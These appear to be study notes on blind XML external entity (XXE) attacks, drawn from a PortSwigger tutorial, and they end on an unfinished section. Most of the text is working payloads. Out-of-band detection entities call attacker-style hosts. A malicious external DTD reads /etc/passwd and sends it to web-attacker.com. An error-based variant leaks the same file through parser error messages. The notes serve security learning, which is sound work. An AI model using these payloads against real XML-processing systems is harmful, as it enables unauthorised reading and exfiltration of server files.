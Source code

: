 # Detecting blind [[XXE]] using out-of-band (OAST) techniques

Use HTTP request:
```xml
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://bupr-collaborator.web-attacker.com"> ]>
```
Monitor if there any DNS or HTTP requests to your URL.

If entities are blocked, due to input validation, you might be able to use XML parameter entities instead which can be referenced within DTO only.
**Declaration example**:
```xml
<!ENTITY % myparameterentity "my parameter entity value" >
```
**Usage**:
```
%myparameterentity;
```
**Example**:
```xml
<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "http://f2g9j7hhkax.web-attacker.com"> %xxe; ]>
```

# Exploiting blind XXE to exfiltrate data out-of-band
Malicous external DTD:
```dtd
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://web-attacker.com/?x=%file;'>">
%eval;
%exfiltrate;
```
Host it on attacker machine:
`http://web-attacker.com/malicious.dtd`
XXE payload:
```dtd
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "http://web-attacker.com/malicious.dtd"> %xxe;]>
```
Insert it between `<xml />` definition and first xml tag. No need to use entity inside xml, just DTD.

Data contained newlines won't work because of URL validation, but it's still possible to use `/etc/hostname` or FTP can be used instead of HTTP.

## Exploiting blind XXE to retrieve data via error messages
Malicious external DTD:
```dtd
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///nonexistent/%file;'>"> %eval;
%error;
```
Host it on attacker machine:
`http://web-attacker.com/malicious.dtd`
XXE payload:
```dtd
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "http://web-attacker.com/malicious.dtd"> %xxe;]>
```
Insert it between `<xml />` definition and first xml tag. No need to use entity inside xml, just DTD.

## Exploiting blind XXE by repurposing a local DTD
#to-be-continued 
https://portswigger.net/web-security/xxe/blind